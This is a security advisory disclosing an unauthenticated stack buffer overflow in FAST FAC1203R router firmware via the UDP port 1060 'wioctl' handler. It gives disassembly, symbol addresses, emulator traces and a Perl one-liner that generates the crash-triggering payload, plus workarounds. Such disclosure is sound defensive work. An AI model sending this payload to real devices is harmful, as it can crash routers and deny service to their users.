








# Overview

Details of the vulnerability found in the FAST FAC1203R router firmware.

| Firmware Name | Version | Download Link |
|--------------|---------|---------------|
| FAC1203R千兆版 | 20200116_2.0.4 | https://service.fastcom.com.cn/download-search.html?kw=FAC1203R |

## Product Attribution

- Product: FAST FAC1203R
- Vendor: FAST
- Vendor website: https://www.fastcom.com.cn/
- Firmware binary used for validation: `F400`
- Symbol file used for analysis: `symbols.txt`



# Vulnerability Details

## 1. Vulnerability Trigger Location

A stack-based buffer overflow risk exists in the `MmtAtePrase` parsing path reached from the firmware's `_tWlanTask` UDP handler. A crafted UDP packet sent to port `1060` with the `wioctl` command prefix and an oversized argument can enter `MmtAtePrase`.

Relevant symbols and addresses:

| Symbol | Address |
| --- | --- |
| `apps_ateInitSock` | `0x800587E4` |
| `wioctl_buf` | `0x8005C4E4` |
| `cmdWioctlParser` | `0x8005ED90` |
| `MmtAtePrase` | `0x80077380` |
| `aWioctl` | `0x8037EDEC` |
| `aMmtate` | `0x803BA370` |



## 2. Vulnerability Analysis

The UDP handler receives data from UDP port `1060`, compares the beginning of the packet with the `iwpriv` and `wioctl` command strings, and then calls `MmtAtePrase`.

```text
UDP port 1060
  -> _tWlanTask
      -> recvfrom()
      -> compare command prefix with "iwpriv" / "wioctl"
      -> MmtAtePrase(1060, recv_buffer, ...)
```

The call site is visible in the disassembly:

```asm
80059df8: jal   0x802a27c0      ; recvfrom
80059e14: jal   0x802c320c      ; compare with command string
80059e2c: jal   0x802c320c      ; compare with command string
80059e50: jal   0x80077380      ; call MmtAtePrase
80059e54: li    a0,1060
```



`MmtAtePrase` creates a stack frame of `560` bytes and uses a local buffer around `sp+24`. The function initializes this local area with a size of `512` bytes, then parses newline-delimited input and calls the next processing routine.

```asm
80077380: addiu sp,sp,-560
800773a0: addiu a0,sp,24
800773a4: li    a2,512
800773d8: jal   0x802c309c
800773e4: jal   0x802c31f0
80077404: jal   0x80077108
80077418: jal   0x80077108
```



The crafted payload is `3072` bytes long:

```text
"wioctl" + 3065 space characters + "\n"
```

It starts with the `wioctl` command prefix and then provides an oversized token for the `MmtAtePrase` parsing path.



# Vulnerability Trigger Process

1. Prepare the FAST FAC1203R firmware binary `F400` and the symbol file `symbols.txt`.
2. Run the firmware in the local VxWorks emulation environment.
3. Configure the emulation target as MIPS little-endian with load base `0x80001000`.
4. Redirect execution to the `_tWlanTask` entry used by the UDP 1060 service.
5. Inject the crafted `wioctl` payload through the emulated `recvfrom` path.
6. Use `TestFinish` hooks to prove that the payload reaches both the `_tWlanTask` call site and the `MmtAtePrase` function entry.

The validation script is included as:

```text
record_twlantask_mmtate_stack_overflow.sh
```

Run:

```bash
chmod +x ./record_twlantask_mmtate_stack_overflow.sh
./record_twlantask_mmtate_stack_overflow.sh
```

The key dynamic evidence is:

```text
recvfrom: wrote 3072 bytes of fuzz data to guest memory
TestFinish at 0x80059e50
TestFinish at 0x80077384
```

At `0x80077384`, the register state shows that the function was entered with UDP port `1060`:

```text
TestFinish at 0x80077384,
regs:
  a0=0x00000424
  a1=0x803f36a8
  sp=0x83fffa58
  ra=0x80059e58
```

`0x424` is decimal `1060`, and `ra=0x80059e58` is the return address immediately after the `_tWlanTask` call to `MmtAtePrase`. This confirms the runtime path:

```text
UDP 1060 -> _tWlanTask -> MmtAtePrase
```



# Proof-of-Concept

The payload can be generated with:

```bash
perl -e 'print "wioctl" . (" " x 3065) . "\n"' > payload_twlantask_mmtate_wdr_ref.bin
```

The included validation script performs the following steps:

- Generates the oversized `wioctl` payload.
- Runs a call-site trace for `0x80059e50`.
- Runs an entry-after-prologue trace for `0x80077384`.
- Runs an auxiliary natural-execution probe.
- Prints a compact validation summary.




# Impact

The vulnerability can be triggered without authentication if an attacker can send packets to UDP port `1060` on the affected device. The vulnerable function processes an oversized network-controlled argument in a stack-based parsing routine, which may cause task crash or denial of service. Because the vulnerable code is in firmware-level service parsing logic, the issue affects the device firmware rather than a single web instance.

# Workaround

1. Restrict access to UDP port `1060` to trusted management networks only.
2. Filter untrusted UDP 1060 packets on an upstream gateway or local firewall.
3. Do not expose vendor-private management or discovery services to the WAN side.
4. Disable unnecessary remote management and discovery functionality when possible.

# Official Fix

No public firmware patch for this specific issue has been confirmed at this time. The vendor should add strict length checks in the `_tWlanTask` / `MmtAtePrase` command parsing path and reject oversized arguments before copying or token processing. Users should monitor the vendor website for firmware updates.

# Discoverer

m202472188@hust.edu.cn HUST IOTS&P lab
